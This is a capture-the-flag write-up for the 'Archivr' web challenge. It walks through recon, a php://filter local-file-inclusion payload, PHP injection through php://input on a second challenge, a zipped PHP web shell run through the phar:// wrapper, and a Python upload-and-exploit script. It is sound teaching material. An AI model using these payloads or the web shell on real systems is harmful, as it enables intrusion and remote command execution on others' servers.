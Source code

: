 # Archivr 300

My team solved all the other web challenges. This was the only one left.

We did not solve this challenge during the CTF because I'm stupid and forgot how regex work :))))))).

Anyways I think it will make for a good writeup anyways. Enjoy.

![alt text](1.png "Chall")

## Recon

![alt text](2.png "Upload")

We can upload any file we want. Lets try upload shell.php

![alt text](4.png "Download")

The extension gets removed and replaced with .dat.

![alt text](3.png "Download")

We can dowload the file here if we enter `1542616333.dat`

Okay let's try some more extensions and figure out which ones are useful.

![alt text](5.png "Download")

Left side is upload filename, right side is filename returned by server.

Moving on. Not much else to do here as the file is just returned to us and not displayed.

## Dirb
Running dirb we get some new paths.

![alt text](6.png "Download")

Cool, we have found the upload directory. Let's see if we can browse our file.

```
/uploads/1542616333.dat (404)
```

Okay maybe that's not the correct folder.

## Exploiting LFI Wrappers
Using this payload we can view the source code of the download.php file as the input is not sanitized correctly.
```
http://fun.ritsec.club:8004/index.php?page=php://filter/convert.base64-encode/resource=download
```
![alt text](8.png "Download")
Decoding the base64 we get:
![alt text](7.png "Download")
This is the code for the upload page:
![alt text](11.png "Download")


So the upload folder is
```
uploads/md5(REMOTE_ADDR)/md5(time()).ext
```
## The hunt for the REMOTE_ADDR IP
In PHP `$_SERVER['REMOTE_ADDR']` returns the IP address in the format X.X.X.X of the user visiting the website.

What's different with this challenge is that the server is running inside docker (most likely) and behind a reverse proxy.

![alt text](apache404.png "Download")
If we visit a page that does not exist. We see that the web server is running apache.

![alt text](nginx.png "Download")

But if we view the header of the request it says nginx.

me ---> nginx (port 8003) ---- > apache (port 80)

Let's try some obvious ones as IP:
```
127.0.0.1
my remote ip
0.0.0.0
54.166.0.85 (ip of ritsec website)
```

None of these worked.... Bruteforce is not a option as we don't know in which range the ip is located.
### Wild idea: Spoofing The X-Forwarded-For (XFF) HTTP header field
I tried to add a header field with a custom IP to see if we can spoof remote address. This did not work and I never expected it to work.

```
X-Forwarded-For: 127.0.0.1
```

### Thinking outside the box: Exploiting another challenge
Remember how we had command injection in Lazy Dev. We know the setup of the CTF should be very similar.

```
curl -d "<?=phpinfo();?>" -X POST http://fun.ritsec.club:8007/devsrule.php?magic=php://input
```
![alt text](9.png "Download")

Remote address of lazy dev is `10.0.10.254`.

Maybe it's the same for Archivr.

![alt text](10.png "Download")

Yaayy! We've found something. Instead of a 404 we get a forbidden (403).

## Create a payload
payload.php
```php
<?php

echo "win";

echo system($_GET["cmd"]);
```
payload.zip
```bash
$ zip payload.zip payload.php
```

Okay we got our payload that we should upload.

Now lets construct the URL.
We know from the recon phase we can't upload a .php file as it will be replaced with .dat.

To run PHP code we can upload a zip and use zip/phar wrappers to extract the zip and run the php file.

Now putting everything together we get:

`
http://fun.ritsec.club:8004/index.php?page=phar://uploads/md5(10.0.10.254)/md5(time()).zip/payload&cmd=ls -lha
`

And the final payload

`
http://fun.ritsec.club:8004/index.php?page=phar://uploads/98d3cbed97b0bc491c000455c9f8e6fb/48be30ab27aa9abc81fe735005f0e601.zip/payload&cmd=ls%20-lha`

![alt text](win.png "Download")

Now finding the flag should be quite easy. Just modify the cmd command!



Here's my python script I used:
```python
import sys
tries = []
import requests
import re

ips = ["10.0.10.254"]

def create_win(ip, filename):
	import hashlib
	m = hashlib.md5()

	m.update(str(ip))
	md5ip = m.hexdigest()

	m = hashlib.md5()
	m.update(filename)
	keymd5 = m.hexdigest()


	URL = 'http://54.211.94.128:8004/uploads/%s/%s.zip' % (md5ip, keymd5)
	print "Testing IP %s on URL %s" % (ip, URL)

	r = requests.get(URL)
	if r.status_code != 404:
		print "VICTORY!!!"
		print "Doing exploit"
		payload = "http://fun.ritsec.club:8004/index.php?page=phar://uploads/%s/%s.zip/payload&cmd=ls -lha" % (md5ip, keymd5)
		print payload		
		exit()

def upload_file():
	url = 'http://fun.ritsec.club:8004/index.php?page=upload'
	files = {'upload': open('payload.zip', 'rb')}
	r = requests.post(url, files=files)
	resp = r.text
	matches = re.search(r'>(.*).zip', resp).group()[1:] #For those curios. This is the code that was wrong and lost us 300 points and a ~5th place.
	return matches.split(".")[0] #Quick and dirty fix with split just to make it work :D


create_win("10.0.10.254", upload_file())
```

Hope you learnt something. I sure did :)
